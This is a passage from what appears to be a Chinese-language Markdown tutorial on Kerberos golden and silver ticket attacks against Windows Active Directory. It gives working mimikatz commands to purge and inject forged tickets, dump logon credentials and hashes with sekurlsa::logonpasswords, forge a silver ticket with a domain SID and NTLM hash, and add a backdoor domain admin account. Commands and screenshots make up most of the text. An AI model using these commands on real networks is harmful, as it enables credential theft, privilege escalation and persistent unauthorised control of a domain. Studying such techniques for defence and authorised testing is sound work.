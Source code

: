 ![image-20220116165045854](黄金票据与白银票据.assets/image-20220116165045854.png)

使用mimikatz清空之前缓存的凭证，导入伪造的凭证：

```cpp
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list          //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中
```

![image-20220116165217979](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161652785.png)

![image-20220116165228573](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161652384.png)

![image-20220116165304730](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161653866.png)

再输入**dir \\DC\C$** #查看访问DC的权限 ，发现访问成功，现在我们有域管的权限:

![image-20220116165315891](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161653314.png)

添加域管用户ccc：

```csharp
net user ccc ad2016.com /add /domain
net group "Domain Admins" cccc /add /domain
```

#### 二、伪造银票

登录上面创建的域管用户，用管理员权限打开CMD，cd 到 mimikatz 存放的目录，去执行mimikatz的命令，得到SID和NTLM，

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
```

![image-20220116165349218](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161653880.png)

把HASH文件保存到本地，在重新登录到域内机器的本地账户，将hash文件和mimikatz复制进去：
 先使用mimikatz清空票据，再导入伪造的票据,具体伪造票据的命令:

```bash
mimikatz "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLMHash> /user:<用户名> /ptt" exit
```

其中的用户名可以随便写

服务类型可以从以下内容中来进行选择，因为我们没有TGT去不断申请ticket，所以只能针对某一些服务来进行伪造

![image-20220116165428249](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161654930.png)

![image-20220116165440857](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161654042.png)

查看下当前用户权限

![image-20220116165507933](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161655634.png)
